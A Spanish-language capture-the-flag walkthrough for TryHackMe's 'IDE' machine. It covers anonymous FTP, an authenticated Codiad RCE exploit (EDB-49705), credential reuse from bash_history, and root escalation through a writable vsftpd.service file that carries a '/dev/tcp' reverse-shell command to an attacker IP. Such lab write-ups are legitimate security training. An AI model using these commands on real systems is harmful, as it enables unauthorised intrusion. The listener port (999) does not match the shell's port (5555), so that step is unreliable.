# IDE — TryHackMe Walkthrough & Writeup


-informational?style=for-the-badge)

Guía completa y walkthrough paso a paso para resolver la máquina **IDE** en la plataforma **TryHackMe**, incluyendo reconocimiento, explotación de vulnerabilidades y escalada de privilegios para obtener todas las flags.

---

**Dificultad:** Media

**Objetivo:** Obtener acceso inicial a través de una aplicación web vulnerable (Codiad IDE), escalar privilegios a un usuario local y luego a root.

## 🔍 Enumeración

### Nmap

Ejecutamos un escaneo completo:

```bash
bash
CopiarEditar
nmap -sV -sC -A -p- 10.10.99.124

```

Se detectaron los siguientes servicios:

- `21/tcp` - **FTP** (vsFTPd 3.0.3) → Permite login anónimo
- `22/tcp` - **SSH** (OpenSSH 7.6p1)
- `80/tcp` - **HTTP** (Apache 2.4.29)
- `62337/tcp` - **HTTP** (Codiad IDE 2.8.4)





## 🌐 Enumeración Web

La aplicación Codiad 2.8.4 corre en el puerto 62337.

```bash
bash
CopiarEditar
http://10.10.99.124:62337

```

Con `gobuster` descubrimos directorios como `/components`, `/workspace`, etc., pero todos están protegidos o no listan contenido útil directo.



## 📂 Enumeración FTP

Se permite login anónimo. Al conectarnos descubrimos un archivo extraño llamado `-` dentro de un directorio oculto `...`.

```bash
bash
CopiarEditar
ftp 10.10.99.124

cd ...
get -

```

El archivo `-` se visualizó con:

```bash
bash
CopiarEditar
strings ./-

```



El contenido fue:

```
pgsql
CopiarEditar
Hey john,
I have reset the password as you have asked. Please use the default password to login.
Also, please take care of the image file ;)
- drac.

```

Esto revela dos usuarios (`john`, `drac`) y sugiere una contraseña por defecto.



## 🔓 Acceso inicial (Login)

Utilizamos:

```
plaintext
CopiarEditar
username: john
password: password

```

¡Acceso exitoso!



## 💥 Explotación - RCE autenticado en Codiad (CVE-2018-14009)

Usamos el exploit EDB-49705, que permite ejecución remota de comandos (RCE) sobre Codiad autenticado.

```bash
bash
CopiarEditar
python3 49705.py http://10.10.99.124:62337/ john password 10.10.201.214 4444 linux

```





> En paralelo, escuchamos conexiones reverse shell:
> 

```bash
bash
CopiarEditar
nc -lnvp 4444

```

Resultado: **conexión recibida como `www-data`**.



## 🔼 Escalada de privilegios: de `www-data` a `drac`

Navegamos a `/home/drac/.bash_history` y encontramos credenciales usadas con `mysql`:

```bash
bash
CopiarEditar
mysql -u drac -p'SuperSecurePassword123!'

```

La contraseña también servía para:

```bash
bash
CopiarEditar
su drac

```

Con esto accedimos como **usuario `drac`** y leímos `user.txt`.



## ⬆️ Escalada a root

Al ejecutar `sudo -l` como `drac`:

```bash
bash
CopiarEditar
(ALL : ALL) NOPASSWD: /usr/sbin/service vsftpd restart

```



El archivo `/lib/systemd/system/vsftpd.service` era modificable, por lo que lo editamos:

```bash
bash
CopiarEditar
[Service]
ExecStart=/bin/bash -c "bash -i >& /dev/tcp/10.10.201.214/5555 0>&1"

```





> Luego lanzamos:
> 

```bash
bash
CopiarEditar
sudo systemctl daemon-reload
sudo /usr/sbin/service vsftpd restart

```



Y en otra terminal:

```bash
bash
CopiarEditar
nc -lnvp 999

```





## 📁 Flags

- ✅ **User flag**: Obtenido como `drac`
- ✅ **Root flag**: Obtenido tras abusar de `vsftpd.service`

---

## 🧠 Lecciones aprendidas

- El login anónimo en FTP puede ser crítico.
- Archivos con nombres poco comunes () pueden esconder pistas.
- Codiad 2.8.4 es vulnerable si no se actualiza.
- Servicios reiniciables por usuarios con `.service` editables son vectores comunes de escalada.